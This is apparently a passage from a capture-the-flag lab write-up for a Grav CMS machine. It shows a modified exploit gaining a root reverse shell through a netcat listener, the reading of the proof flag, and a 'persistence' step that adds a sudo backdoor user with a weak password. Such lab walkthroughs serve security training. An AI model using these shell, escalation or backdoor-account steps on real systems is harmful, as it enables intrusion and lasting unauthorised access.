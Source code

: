 That's our payload from our foothold exploit!

So I'm guessing if we would just change the original exploit to set the uid, we would be able to get root! Let's try it.


16) Modified the exploit to have `posix_setuid(0)`.

> Code available in this repo under `49973-modified-setuid.py`

17) I set up my listener with `nc -lvnp 80` on a different window, and run the exploit `pyhton 49973-modified-setuid.py`

```
??$ nc -lvnp 80
listening on [any] 80 ...
connect to [192.168.49.51] from (UNKNOWN) [192.168.51.12] 44084
bash: cannot set terminal process group (30460): Inappropriate ioctl for device
bash: no job control in this shell
root@gravity:~/html/grav-admin# whoami
whoami
root
```

And we get root!

```
root@gravity:~/html/grav-admin# cd /root
cd /root
root@gravity:/root# ls
ls
flag1.txt
proof.txt
snap
root@gravity:/root# cat proof.txt
cat proof.txt
ee165d75af56d474155b147142ea35ba

```

There's our proof!

## Persistence (Bonus)

18) We'll do the usual: set up a new user so that we can come back through the front door (the ssh server)

```
root@gravity:/root# sudo useradd -m hacker
sudo useradd -m hacker

root@gravity:/root# echo hacker:hacker | sudo chpasswd
echo hacker:hacker | sudo chpasswd

root@gravity:/root# sudo usermod -aG sudo hacker
sudo usermod -aG sudo hacker
```
